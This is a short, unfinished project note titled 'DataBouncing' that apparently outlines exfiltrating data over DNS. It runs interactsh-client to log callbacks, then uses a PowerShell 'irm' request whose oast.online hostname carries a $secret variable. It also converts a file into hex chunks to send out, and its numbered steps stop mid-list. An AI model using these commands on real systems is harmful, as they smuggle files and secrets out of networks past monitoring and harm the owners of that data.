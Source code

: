 # DataBouncing

```
interactsh-client -v -o Logs.txt
```

`irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"`

$hex = Convert-FileToHexChunks -FilePath .\AST-Test.txt


# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
